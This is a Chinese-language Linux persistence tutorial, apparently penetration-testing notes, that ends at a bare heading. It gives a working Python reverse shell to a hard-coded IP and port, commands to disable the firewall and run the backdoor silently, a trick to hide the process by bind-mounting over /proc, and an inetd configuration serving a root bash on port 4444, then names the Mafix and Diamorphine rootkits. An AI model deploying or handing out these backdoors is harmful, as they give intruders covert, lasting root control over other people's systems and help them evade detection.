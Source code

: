 反向后门

```
import socket, subprocess, os;
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("192.168.241.128", 6666));
os.dup2(s.fileno(), 0);
os.dup2(s.fileno(), 1);
os.dup2(s.fileno(), 2);
p = subprocess.call(["/bin/sh", "-i"]);
```

1. 这里提供了两种后门，尽量用正向的，将后门保存为dir.py
2. `systemctl stop firewalld.service`关防火墙
3. `nohup python3 dir.py > /dev/null 2>&1 &`  可以看到是python ![image-20221110220844632](../资源文件/图片/202303251637020.png) 会开启一个11端口的正向后门kali使用nc直接连接即可 `nohup vim -E -c "pyfile dir.py"&`   这样就可以使vim了
4. 隐藏进程

```
mkdir null
mount --bind null /proc/5480
netstat -anpt
```

\#mount --bind命令是将前一个目录挂载到后一个目录上，所有对后一个目录的访问其实都是对前一个目录的访问，并且会将前一个目录路径隐藏起来（注意这里只是隐藏不是删除，数据未发生改变，仅仅是无法访问了）。 umount /proc/5480进行解除挂载

### inetd服务后门

inetd是一个监听外部网络请求(就是一个socket)的系统守护进程，默认情况下为13端口。当inetd接收到一个外部请求后，它会根据这个请求到自己的配置文件中去找到实际处理它的程序，然后再把接收到的这个socket交给那个程序去处理。所以，如果我们已经在目标系统的inetd配置文件中配置好，那么来自外部的某个socket是要执行一个可交互的shell，就获取了一个后门。

1. 安装服务 sudo apt install openbsd-inetd
2. 修改默认端口 sudo vim /etc/services 添加woot 4444/tcp #evil backdoor service
3. 修改/etc/inetd.conf  woot stream tcp nowait root /bin/bash bash -i
4. sudo inetd    运行服务
5. kali使用nc连接 ，nc   192.168.1.146   4444

### Rootkit

rootkit分为内核级和应用级两种:内核级的比如：Diamorphine，应用级的比如：Mafix Mafix 是一款常用的轻量应用级别Rootkits，是通过伪造ssh协议漏洞实现远程登陆的特点是配置简单并可以自定义验证密码和端口号。应用级rookit，主要替换ls、ps、netstat命令来隐藏文件,检测：使用相关检测工具，比如：unhide

#### Diamorphine
